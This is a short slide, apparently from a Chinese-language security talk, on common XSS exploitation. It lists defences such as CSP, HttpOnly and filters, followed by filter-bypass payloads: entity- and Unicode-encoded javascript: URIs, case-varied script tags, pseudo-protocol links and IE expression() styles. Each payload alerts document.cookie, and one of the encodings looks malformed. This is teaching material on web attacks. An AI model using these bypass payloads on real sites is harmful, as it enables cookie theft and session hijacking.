

# XSS常规利用
现状：
CSP/HttpOnly/Filter

Filter:
Htmlspecialchars()/strip_tags()/blacklist

特殊编码：HTML实体/Unicode/Hex
<embed src=javascript:alert(document.cookie)>
Unicode：S->&#115; => 1->&#49; => S->&#49;5;
Unicode Hex：T->\u0074
<embed src=java&#1&#49;5;cript:alert(documen\u0074.c\u006fokie)>

绕过正则:sCript/<script

伪协议:<a href=javascript:alert(window.cookie)>Click</a>

IE expression:<img style=xxx:expression(alert(window.cookie))>